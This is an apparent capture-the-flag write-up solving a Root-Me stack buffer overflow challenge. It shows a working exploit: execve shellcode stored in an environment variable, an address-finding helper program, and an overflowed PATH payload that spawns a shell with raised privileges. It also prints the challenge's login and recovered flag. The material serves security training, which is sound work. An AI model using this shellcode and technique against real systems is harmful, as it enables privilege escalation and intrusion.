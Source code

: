 # ELF x86 - Stack buffer overflow basic 4
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-4
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch8@challenge02.root-me.org   
Username	app-systeme-ch8
Password	app-systeme-ch8
```
A quick review of the source code can reveal that there is an overflow vulnerability in the **GetEnv** function, because it uses the _strcpy_ function.
All the 4 variables are vulnerable to overflow. So the most reason choice will be to exploit the _PATH_ variable's overflow (because it's last).<br>

First, the _USERNAME_ is not set. So, let's just put junk into it using the command ```export USERNAME=BBBB```.<br>

No ASLR nor NX, so a simple overflow-with-shellcode will do it.<br>
We need a place to put our shellcode. Because there is no real input function in the program, let's put it in an environment variable. Let's call it **SHELLCODE**.<br>

At the end of the *GetEnv* function, the stack will be formed as the following figure:
```
            +----------------------------+
            |      HOME env variable     |     %ebp - 540
            +----------------------------+
            |    USERNAME env variable   |     %ebp - 412
            +----------------------------+
            |      SHELL env variable    |     %ebp - 284
            +----------------------------+
            |      PATH env variable     |     %ebp - 156
            +----------------------------+
            |           saved ebp        |
            +----------------------------+
            |        return address      |     %ebp + 4
            +----------------------------+
            |   rep movsl dest. address  |     %ebp + 8
            +----------------------------+  
```
The offset to the return address (from _PATH_ is 160 bytes).<br>
**But** in _ebp+8_ there is the ```rep movsl dest. address```. And because we're writing a string to the _PATH_ variable, we may mess up this address with the \x00 character. So, we should overwrite the whole address into a writable address.<br>
So in order to solve this problem, let's create another environment variable (let's call it _JUNK_), and let's initiate it with a big buffer.<br><br>

Now, let's find our variables. Using the following C code (credit to Yandros):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char * argv[]) {
    char *ptr;
    if(argc<3){
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;  
    printf("%s will be at %p\n", argv[1], ptr);
}
```
We're able to find both **SHELLCODE** and _JUNK_:
```sh
app-systeme-ch8@challenge02:~$ export SHELLCODE=`python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`
app-systeme-ch8@challenge02:~$ export JUNK=`python -c "print 'B' * 1000"`
app-systeme-ch8@challenge02:~$ /tmp/find_env SHELLCODE ./ch8
SHELLCODE will be at 0xbffff931
app-systeme-ch8@challenge02:~$ /tmp/find_env JUNK ./ch8
JUNK will be at 0xbffffb2b
```

Now it's time to create our payload. But first let's verify our finding:
```gdb
(gdb) set env PATH=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDD
(gdb) run
Starting program: /challenge/app-systeme/ch8/ch8 
[+] Getting env...

Program received signal SIGSEGV, Segmentation fault.
0x00444444 in ?? ()
```
So we can control the _eip_. Now let's replace the 'DDDD' with the **SHELLCODE** address and add the _JUNK_ address to the end of the payload:
```sh
app-systeme-ch8@challenge02:~$ export PATH=`python -c "print 'A'*160 + '\x31\xf9\xff\xbf' + '\x2b\xfb\xff\xbf'"`
app-systeme-ch8@challenge02:~$ ./ch8
$ id
uid=1108(app-systeme-ch8) gid=1108(app-systeme-ch8) euid=1208(app-systeme-ch8-cracked) groups=1208(app-systeme-ch8-cracked),100(users),1108(app-systeme-ch8)
$ cat .passwd
s2$srAkdAq18q
```
